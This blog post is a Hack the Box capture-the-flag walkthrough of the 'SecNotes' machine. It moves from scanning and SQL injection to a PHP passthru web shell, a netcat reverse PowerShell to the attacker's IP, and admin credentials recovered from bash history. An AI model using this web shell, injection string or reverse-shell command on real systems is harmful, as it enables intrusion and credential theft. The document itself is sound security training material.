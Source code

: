 +++
author = "Nick"
categories = ["CTF", "NetSec"]
date = 2019-01-22T17:03:09Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/01/info.PNG"
slug = "hack-the-box-secnotes"
summary = "Hack the Box - SecNotes machine. Lets get root!"
tags = ["CTF", "NetSec"]
title = "Hack the Box - SecNotes"

+++


Well, this will be my 11th write up for HtB, however, you aren't allowed to post a write up until a box has been retired. So I guess this is will actually be my first published write up on this site!

For those that are unfamiliar with what Hack the Box is, it's a simple capture the flag in digital space. In this case the flag is Administrative shell and credentials for users on the target machine. Let's dig in!

As always, we start by gathering info on our target with a basic nmap scan:

```bash
nmap -sC -sV -oA 10.10.10.97

That comes back with some basic things, we see port 80 and 445. We see that it's a Windows 10 machine running Enterprise build 17134. My guy reaction here is MS17-010 but that build might be too new to exploit. Lets check anyway.

```bash
ost script results:
|_clock-skew: mean: 2h40m00s, deviation: 4h37m08s, median: 0s
| smb-os-discovery: 
|   OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: SECNOTES
|   NetBIOS computer name: SECNOTES\x00
|   Workgroup: HTB\x00
|_  System time: 2018-11-22T06:21:10-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-11-22 09:21:12
|_  start_date: N/A

There are a few ways to check this exploit but this time, we'll just use Metasploit since it has a MS17-010 scanner module. If you aren't familiar with where it is in Metasploit you can always use the search command to find it:

```bash
search ms17_010

{{< figure src="__GHOST_URL__/content/images/2019/01/ms17_check.PNG" >}}

Now we load up the module and give it our target data:

```bash
use auxiliary/scanner/smb/smb_ms17_010

{{< figure src="__GHOST_URL__/content/images/2019/01/ms17_check2.PNG" caption="MS17-010 scanner hasn't found anything." >}}

It would appear the machine is not vulnerable. No biggy, we can run ms-17-010 against is if we think this data is false, but it usually isn't. Lets keep moving, we also saw port 80 open, lets browse to it and see what it is.

{{< figure src="__GHOST_URL__/content/images/2019/01/site.PNG" caption="Some type of login it seems" >}}

Well, it seems to direct us to a login page of some type. So we try our usual, admin / admin. Admin with 1 space and amin with 2 spaces at the end. Sometimes this works due to lazy comparisons. Nothing, well, lets try and sign up for an account. We can sign up and get logged in. It's some type of note system.

{{< figure src="__GHOST_URL__/content/images/2019/01/pafge.PNG" >}}

Lets create a note with some html.

{{< figure src="__GHOST_URL__/content/images/2019/01/note1.PNG" >}}

Sure enough, we see the form isn't filtering any html:

{{< figure src="__GHOST_URL__/content/images/2019/01/note2.PNG" caption="potential xss?" >}}

Well, that could be fun, lets check out the other pages and see what can be done. When we look at the change password page source, we notice there is not any CSRF tokens or protection of any type. Lets launch Burpe Suite and see what is being posted when we fill this field out.

{{< figure src="__GHOST_URL__/content/images/2019/01/burp1.PNG" caption="Well isn't that fun..." >}}

So we can see that it's just passing in a password change via post. If we were to forward this page link to the site admin and they read it, we could passively change the password for the admin user. The question is how do we get the admin to read the link? (more on that later).

Well that could be our best way in, before we commit to that method, lets check for any php injections. Lets go back and create a user name of Love'"!@#$%^&*()[];<>. This should let us see if anything can be broken.

{{< figure src="__GHOST_URL__/content/images/2019/01/500.PNG" caption="What do we have here?" >}}

Well, it looks like we can break this somehow. In this case I just removed the last set of special characters from our name until I found what seemed to be broken. So I used Love'"– - nothing, Love'!– - nothing, But then I got to Love';– - and that seemed to be the ticket. So do we craft an SQL injection statement? It was at this part I began to overthink the execution. So I just went back to basics with a injection method. ' OR '1'='1. Sure enough that gave be back some data in Burpe yet a error 500 on the web interface... odd. We had gotten back three notes, a recipe, some years and credentials.

{{< figure src="__GHOST_URL__/content/images/2019/01/html_cred.PNG" caption="Credentials for a user named tyler, awesome!" >}}

So it seems our secure notes app wasn't so secure after all. It looks like they're going to spin up a new site, awesome. The notation above shows it's an SMB share something our nmap also gave us. Lets enumerate our shares on this machine and see what we get. We can enumerate SMB shares with a tool called SMBmap.

{{< figure src="__GHOST_URL__/content/images/2019/01/smbenum.PNG" caption="We give smbmap a username and password." >}}

Looks like we have the normal shares and our newly found new-site share. Lets connect using smbclient.

{{< figure src="__GHOST_URL__/content/images/2019/01/smb_dir_muchbetter.PNG" caption="We give smbclient a target and a user, we are then prompted for a password.&nbsp;" >}}

When we list the directories we see the standard IIS html and png. We can't seem to path up either. We have write access, lets try to put a file on the directory. Sure enough we can upload a file to the share. So how to we get to that site? It wasn't found at /new-site or any other iteration of that. It's not uncommon for devs to create test site locally on other ports. Lets try to scan all the ports and see what comes back.

{{< figure src="__GHOST_URL__/content/images/2019/01/nmap2.PNG" >}}

Looks like we have something running on 8808, lets browse to it. Looks like the basic IIS start page, awesome. Lets create a basic html file and upload it and see if we can access that.

{{< figure src="__GHOST_URL__/content/images/2019/01/put.PNG" >}}

{{< figure src="__GHOST_URL__/content/images/2019/01/test1.PNG" >}}

Looks like it worked! Now, based on our previous nmap scans, we know that the site is running PHP. A common method of attack here is to create a PHP script to upload a vector of attack and have the IIS system run that file. So this is exactly what we'll do. The first time I ran through this attack, I was using a reverse Meterpeter payload but that seemed to keep dropping connection after ~30 seconds or so. Since that wasn't working out I decided to try the old standby of Netcat.

The first thing we need to do is download Netcat. Then we'll upload it to our new-site share. Once we've done that we'll write a quick and dirty php file to execute the commands we issue it.

{{< figure src="__GHOST_URL__/content/images/2019/01/nc64.PNG" caption="We connect via smbclient again and issue a put command." >}}

Now that our file is there, lets write a quick PHP one liner. PHP has a function called [passthru](https://secure.php.net/manual/en/function.passthru.php)(). This allow us to execute a command on the system. At first I wrote this with the exec() function in PHP but it didn't seem to like the arguments I was feeding it, probably has something to do with the lack of PHP knowledge I have. We create a new file called loveshell.php. In this file we will write the following:

```php
<?php passthrue($_REQUEST["run"]);?>

When we call this webpage, we can then feed it commands like this:

http://10.10.10.97/new-site/loveshell.php?run=dir

In the case above, the server will execute the 'dir' command and give us the results on the page.

{{< figure src="__GHOST_URL__/content/images/2019/01/result.PNG" >}}

So lets upload our file to the server using smbclient again. Now before we execute anything, we need to start our Netcat listener on our machine.

{{< figure src="__GHOST_URL__/content/images/2019/01/nclisten.PNG" caption="We use the -n for ip only, the -v for verbose, the -l for listen for inbound only and the -p for our port" >}}

Now that we're listening, lets feed our php shell a netcat command. We want netcat to start a powershell session and forward it to us. To do that we issue the following:

```bash
nc64.exe 10.10.13.37 9909 -e powershell

This create a powershell session and forwards it to our machine on port 9909. Previously I had created the session with CMD prompt but that was lacking in features. So lets drop this into our URL bar and see what we get!

{{< figure src="__GHOST_URL__/content/images/2019/01/urlsend.PNG" >}}

{{< figure src="__GHOST_URL__/content/images/2019/01/reverse_powershell.PNG" >}}

Once we issue the command we see our Netcat listener light up and become active! We now have a Powershell prompt. Lets go get our user credentials! We path to the desktop and sure enough, they are here. A quick more user.txt gives us what we are looking for.

{{< figure src="__GHOST_URL__/content/images/2019/01/user.PNG" >}}

Now how do we escalate our privileges? There are a few ways of doing this but I feel like I took that path that was blatantly right in front of me. As we traversed the directories to get to Tyler's desktop we noticed a few things. The first being a directory for Distros listed under the C drive. When we path down it, we notice that there is a Ubuntu directory with Ubuntu.exe. So whats interesting about this is that this file is meant to run Ubuntu within Windows. Very much like the windows bash sub-features. Along side this on Tyler's Desktop there was a shortcut named bash.lnk. When we look at the content of that shortcut we see it's pointing to a bash.exe in System32.

{{< figure src="__GHOST_URL__/content/images/2019/01/bash.PNG" caption="bash.exe in System32? What could this be?" >}}

Since that shortcut is linked to the System32, we should be able to call it from our powershell command prompt.

{{< figure src="__GHOST_URL__/content/images/2019/01/bash1.PNG" >}}

Sure enough, we can. So who are we in this bash shell? Turns out we're root. Maybe we can path to Administrator now and get credentials!

{{< figure src="__GHOST_URL__/content/images/2019/01/whoami.PNG" >}}

So we path to /mnt/c/users/Administrator and see what we can see.

{{< figure src="__GHOST_URL__/content/images/2019/01/admin1.PNG" caption="Denied!" >}}

Nothing, we still don't seem to actually have root privileges. So lets go back to our starting point and see whats there. When we list the content of our home directory we see a directory called 'filesystem'. More importantly we see .bash_history, usually this has some breadcrumbs we can follow.

{{< figure src="__GHOST_URL__/content/images/2019/01/listing.PNG" >}}

We list the contents of 'filesystem' but there seems to be nothing there. Lets check the contents of the .bash_history. When we do we see some admin credentials. Awesome, lets use those credentials to connect back to the system via SMB!

{{< figure src="__GHOST_URL__/content/images/2019/01/cat_bash.PNG" caption="The % after the administrator is the delimiter for the smbclient tool." >}}

Once again we open our smbclient and connect as administrator using the above credentials. Once we're in, we simply path to the Desktop and view our root.txt.

{{< figure src="__GHOST_URL__/content/images/2019/01/root.PNG" >}}

There we have it. Another box down. It should be noted there are other ways to own this box. The above is just the path that I followed as I'm much more familiar with infrastructure access and pathways vs web access.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

